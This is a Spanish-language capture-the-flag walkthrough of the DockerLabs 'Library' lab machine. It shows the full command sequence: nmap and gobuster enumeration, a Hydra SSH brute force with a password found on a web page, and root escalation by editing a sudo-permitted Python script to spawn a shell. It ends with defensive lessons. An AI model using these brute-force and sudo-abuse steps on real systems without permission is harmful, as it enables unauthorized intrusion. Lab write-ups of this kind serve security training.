

---

# 🧠 Informe de Pentesting – Máquina *Library* (DockerLabs)

* **Dificultad**: Fácil
* **IP de la máquina**: `172.17.0.3`
* **Objetivo**: Obtener acceso como usuario, escalar privilegios y conseguir acceso root
* **Herramientas utilizadas**: `nmap`, `gobuster`, `hydra`, `python`, `sudo`

---

## 🛠️ Preparación del entorno

Se descargó la máquina vulnerable desde la plataforma DockerLabs y se desplegó utilizando los siguientes comandos:

```bash
unzip library.zip
sudo bash auto_deploy.sh library.tar
```




---

## 📡 Comprobación de conectividad

Para verificar que la máquina está activa en la red, hicimos un ping:

```bash
ping -c1 172.17.0.3
```


---

## 🔍 Escaneo de puertos con Nmap

### 1. Enumeración de todos los puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Esto reveló dos puertos abiertos:

* **22** (SSH)
* **80** (HTTP)


---

### 2. Detección de servicios y versiones:

```bash
nmap -sC -sV -p80,22 172.17.0.3 -oN target.txt
```


---

## 🌐 Exploración del servicio web (HTTP)

Al visitar `http://172.17.0.3:80`, encontramos la página por defecto de **Apache2**, sin contenido personalizado.


---

## 🚪 Fuzzing de directorios con Gobuster

Comenzamos a buscar rutas ocultas usando la siguiente herramienta:

```bash
gobuster dir -u http://172.17.0.3/ \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
```

Se encontraron tres directorios interesantes.


---

## 🔑 Descubrimiento de posibles credenciales

En el directorio `index.php` encontramos una cadena alfanumérica:

```
JIFGHDS87GYDFIGD
```


---

## 📁 Fuzzing profundo en subdirectorios

### Directorio `/javascript`

```bash
gobuster dir -u http://172.17.0.3/javascript \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
```


---

### Directorio `/javascript/jquery`

```bash
gobuster dir -u http://172.17.0.3/javascript/jquery \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
```


---


---

## 🔐 Ataque de fuerza bruta con Hydra (SSH)

Dado que teníamos un posible password (`JIFGHDS87GYDFIGD`), intentamos un ataque de fuerza bruta solo sobre el nombre de usuario, usando Hydra:

```bash
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt \
  -p JIFGHDS87GYDFIGD ssh://172.17.0.3 -t 4
```

🎯 **Resultado exitoso**:

```
[22][ssh] host: 172.17.0.3   login: carlos   password: JIFGHDS87GYDFIGD
```


---

## 🧑‍💻 Acceso al sistema

Nos conectamos vía SSH con las credenciales obtenidas:

```bash
ssh carlos@172.17.0.3
```

---

## 📈 Escalada de privilegios

Una vez dentro del sistema, ejecutamos:

```bash
sudo -l
```

Esto reveló que el usuario `carlos` puede ejecutar el siguiente script con privilegios de superusuario:

```bash
(ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```


---

### 🐍 Explotación del script

El script original parecía hacer una copia de archivos. Lo editamos para obtener una shell con privilegios root:

```python
# script.py modificado
import os
os.system("/bin/sh")
```

Luego lo ejecutamos con sudo:

```bash
sudo /usr/bin/python3 /opt/script.py
```

Y así obtuvimos una shell como **root**. 🎉


---

## ✅ Conclusión

* Se logró acceder a la máquina usando credenciales descubiertas mediante análisis web y fuerza bruta.
* Se identificó un vector claro de escalada de privilegios gracias a un script ejecutable con permisos sudo.
* Este ejercicio destaca la importancia de:

  * No dejar archivos sensibles o contraseñas visibles en páginas web.
  * Limitar los permisos sudo a scripts controlados.
  * Restringir los binarios interpretables como `python`.
